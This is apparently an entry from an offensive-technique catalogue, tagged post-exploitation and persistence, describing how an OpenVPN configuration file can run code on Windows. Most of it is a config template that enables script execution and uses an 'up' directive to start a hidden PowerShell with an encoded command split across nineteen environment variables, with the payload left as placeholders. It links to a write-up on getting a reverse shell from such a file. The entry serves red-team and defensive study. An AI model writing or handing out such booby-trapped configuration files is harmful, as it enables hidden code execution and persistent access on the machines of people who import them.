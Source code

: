 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - network-protocols
  - openvpn
  - windows
credits:
  - Jacob Baines
---
```

# OpenVPN

```
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
setenv z1 C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
setenv a1 '<base64_encoded>'
setenv b1 '<base64_encoded>'
setenv c1 '<base64_encoded>'
setenv d1 '<base64_encoded>'
setenv e1 '<base64_encoded>'
setenv f1 '<base64_encoded>'
setenv g1 '<base64_encoded>'
setenv h1 '<base64_encoded>'
setenv i1 '<base64_encoded>'
setenv j1 '<base64_encoded>'
setenv k1 '<base64_encoded>'
setenv l1 '<base64_encoded>'
setenv m1 '<base64_encoded>'
setenv n1 '<base64_encoded>'
setenv o1 '<base64_encoded>'
setenv p1 '<base64_encoded>'
setenv q1 '<base64_encoded>'
setenv r1 '<base64_encoded>'
setenv s1 '<base64_encoded>'

up "C:\\Windows\\System32\\cmd.exe /c (start %z1% -WindowStyle Hidden -EncodedCommand %a1%%b1%%c1%%d1%%e1%%f1%%g1%%h1%%i1%%j1%%k1%%l1%%m1%%n1%%o1%%p1%%q1%%r1%%s1%) ||"
```

---
## References

- [Jacob Baines: Reverse Shell from an OpenVPN Configuration File](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)
